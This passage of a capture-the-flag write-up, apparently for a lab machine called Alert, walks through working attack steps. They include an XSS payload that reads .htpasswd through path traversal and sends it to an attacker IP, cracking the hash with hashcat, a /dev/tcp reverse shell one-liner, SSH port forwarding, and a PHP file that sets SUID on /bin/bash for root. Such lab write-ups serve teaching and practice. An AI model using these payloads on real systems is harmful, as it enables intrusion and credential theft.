echo 'PHByZT48VmlydHVhbEhvc3QgKjo4MD4KICAgIFNlcnZlck5hbWUgYWxlcnQuaHRiCgogICAgRG9jdW1lbnRSb290IC92YXIvd3d3L2FsZXJ0Lmh0YgoKICAgIDxEaXJlY3RvcnkgL3Zhci93d3cvYWxlcnQuaHRiPgogICAgICAgIE9wdGlvbnMgRm9sbG93U3ltTGlua3MgTXVsdGlWaWV3cwogICAgICAgIEFsbG93T3ZlcnJpZGUgQWxsCiAgICA8L0RpcmVjdG9yeT4KCiAgICBSZXdyaXRlRW5naW5lIE9uCiAgICBSZXdyaXRlQ29uZCAle0hUVFBfSE9TVH0gIV5hbGVydFwuaHRiJAogICAgUmV3cml0ZUNvbmQgJXtIVFRQX0hPU1R9ICFeJAogICAgUmV3cml0ZVJ1bGUgXi8/KC4qKSQgaHR0cDovL2FsZXJ0Lmh0Yi8kMSBbUj0zMDEsTF0KCiAgICBFcnJvckxvZyAke0FQQUNIRV9MT0dfRElSfS9lcnJvci5sb2cKICAgIEN1c3RvbUxvZyAke0FQQUNIRV9MT0dfRElSfS9hY2Nlc3MubG9nIGNvbWJpbmVkCjwvVmlydHVhbEhvc3Q+Cgo8VmlydHVhbEhvc3QgKjo4MD4KICAgIFNlcnZlck5hbWUgc3RhdGlzdGljcy5hbGVydC5odGIKCiAgICBEb2N1bWVudFJvb3QgL3Zhci93d3cvc3RhdGlzdGljcy5hbGVydC5odGIKCiAgICA8RGlyZWN0b3J5IC92YXIvd3d3L3N0YXRpc3RpY3MuYWxlcnQuaHRiPgogICAgICAgIE9wdGlvbnMgRm9sbG93U3ltTGlua3MgTXVsdGlWaWV3cwogICAgICAgIEFsbG93T3ZlcnJpZGUgQWxsCiAgICA8L0RpcmVjdG9yeT4KCiAgICA8RGlyZWN0b3J5IC92YXIvd3d3L3N0YXRpc3RpY3MuYWxlcnQuaHRiPgogICAgICAgIE9wdGlvbnMgSW5kZXhlcyBGb2xsb3dTeW1MaW5rcyBNdWx0aVZpZXdzCiAgICAgICAgQWxsb3dPdmVycmlkZSBBbGwKICAgICAgICBBdXRoVHlwZSBCYXNpYwogICAgICAgIEF1dGhOYW1lICJSZXN0cmljdGVkIEFyZWEiCiAgICAgICAgQXV0aFVzZXJGaWxlIC92YXIvd3d3L3N0YXRpc3RpY3MuYWxlcnQuaHRiLy5odHBhc3N3ZAogICAgICAgIFJlcXVpcmUgdmFsaWQtdXNlcgogICAgPC9EaXJlY3Rvcnk+CgogICAgRXJyb3JMb2cgJHtBUEFDSEVfTE9HX0RJUn0vZXJyb3IubG9nCiAgICBDdXN0b21Mb2cgJHtBUEFDSEVfTE9HX0RJUn0vYWNjZXNzLmxvZyBjb21iaW5lZAo8L1ZpcnR1YWxIb3N0PgoKPC9wcmU+Cg==' | base64 -d | cat -l java > configfile.txt
```

```bash
cat configfile.txt
```

```java

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

# Path To User Credentials?

This is incredible, since we've found a path where user credentials are most likely being stored

**AuthUserFile /var/www/statistics.alert.htb/.htpasswd**

Now let's repeat the same XSS injection targeting that file to see what's inside it

This is the script now

```js
var req = new XMLHttpRequest();
req.open(
	"GET",
	"http://alert.htb/messages.php?file=../../../../../../../../var/www/statistics.alert.htb/.htpasswd",
	false,
);
req.send();

var info = new XMLHttpRequest();
info.open("GET", "http://10.10.15.41/?infoinB64=" + btoa(req.responseText));
info.send();
```

# Hashed Credentials



```bash
echo -n 'PHByZT5hbGJlcnQ6JGFwcjEkYk1vUkJKT2ckaWdHOFdCdFExeFlEVFFkTGpTV1pRLwo8L3ByZT4K' | base64 -d > credentials.txt
```

```bash
cat credentials.txt
```

```bash
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

And we've been able to obtain the credentials for the user **albert**, but the password is hashed...

Based on the format, we can deduce that this is an **apr1-type** hash

Let's confirm this using `hashcat`

```bash
hashcat --example-hashes | grep -i "apr1" -B 1 -A 8
```

```bash
Hash mode #1600
  Name................: Apache $apr1$ MD5, md5apr1, MD5 (APR)
  Category............: FTP, HTTP, SMTP, LDAP Server
  Slow.Hash...........: Yes
  Deprecated..........: No
  Deprecated.Notice...: N/A
  Password.Type.......: plain
  Password.Len.Min....: 0
  Password.Len.Max....: 256
  Salt.Type...........: Embedded
--
  Example.Hash.Format.: plain
  Example.Hash........: $apr1$62722340$zGjeAwVP2KwY6MtumUI1N/
  Example.Pass........: hashcat
  Benchmark.Mask......: ?a?a?a?a?a?a?a
  Autodetect.Enabled..: Yes
  Self.Test.Enabled...: Yes
  Potfile.Enabled.....: Yes
  Keep.Guessing.......: No
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX
```

Apparently, the format is the same, so we've confirmed it, this is an **apr1-type** hash

# Cracking The Hashed Password

Now, let's try to crack it using **rockyou.txt** as the wordlist

First, let's get the .txt file ready to crack



Now we're ready

```bash
hashcat -m 1600 -a 0 credentials.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```



And we obtained the credentials in plain text!

It looks like the administrator's password is **manchesterunited**

Let's save it

```bash
nvim credentials.txt
```

```bash
albert:manchesterunited
```

# SSH Authentication

Now, if we remember correctly, in addition to an **HTTP** service, we also had an **SSH** service, let's try to authenticate through that service

```bash
ssh albert@10.129.231.188
```

Password: manchesterunited



And we're in!

Working from the console provided by **SSH** is a bit of a hassle, so let's launch a shell and customize it to make it more user-friendly

```bash
bash -c "bash -i >& /dev/tcp/10.10.15.41/443 0>&1"
```

And from our machine, we open the specified listening port to receive the connection

```bash
sudo nc -nvlp 443
```

# TTY Treatment



Now we'll go over the **TTY** treatment

This will allow us to have a fully interactive shell where we can use Ctrl + C, Ctrl + L, etc...

```bash
script /dev/null -c bash
```

Then we press Ctrl + Z

```bash
stty raw -echo;fg
```

```bash
reset
```

And for **Terminal type**, type xterm



Once everything is ready, we set the value of TERM to xterm

```bash
export TERM=xterm
```

And finally, as the last step, we adjust the TTY size

To do this, we first check the **rows** and **columns** sizes on our machine

```bash
stty size
```


Now we'll adjust those values on the TTY we're working with

```bash
stty rows 42 columns 185
```

# Internal Enumeration

The first thing we see in the current working directory is the user flag



After checking capabilities, SUID permissions, cron jobs, etc..., we found an internal service that isn't accessible from outside

```bash
ss -nltp
```



The service that looks interesting is running on port 8080

This service may be the subdomain for alert.htb

If we take another look at the configuration files, we can see that there is a subdomain called **statistics.alert.htb**

```bash
cat /etc/apache2/sites-available/000-default.conf
```



# Port Forwarding

First, let's start by setting up port forwarding via SSH

```bash
ssh albert@10.129.231.188 -L 8080:127.0.0.1:8080
```

Password: manchesterunited

Now, to access the subdomain, we need to add it to our **/etc/hosts** file

```bash
sudo nvim /etc/hosts
```



And now we can view the content of the subdomain that was running internally on the machine

Name: albert

Password: manchesterunited



Now let's take a look at the configuration files for that subdomain

```bash
cd /var/www/statistics.alert.htb
```

But unfortunately, we can't access that directory

If we use `id`, we can see that we're in a group called **management**



Let's see what we can do with that group

```bash
find / -group management 2>/dev/null
```



Let's see what's in this .php file



It doesn't contain any useful information

# Directory With Write Permissions

Now let's go to the **website-monitor** directory

```bash
cd /opt/website-monitor
```

```bash
ls -la
```



Seeing this, we realize that we have write permissions for the monitors directory...

First, let's see what's inside

```bash
cd monitors
```

```bash
ls -la
```



If we think about it, we don't have any service called “website monitor” or “monitor”

We still need to check the service on **port 8080**, for which we set up port forwarding via **SSH**



**We found it!**

Now let's try to access the resources in the **monitors** directory using this web service



And as we can see, we've been able to list the contents of the file

And now we have write permissions in that directory, where the files run as the **root user**

With this in mind, we can create a file that launches a reverse shell as the root user or add SUID permissions to /bin/bash

# Root

```bash
nano rootuser.php
```

```php
<?php system("chmod u+s /bin/bash"); ?>
```



And now we should have the bash with SUID permissions



All we have to do is open bash as a privileged user, and we'll have our console as root

```bash
bash -p
```



And finally, here's the **root user flag**
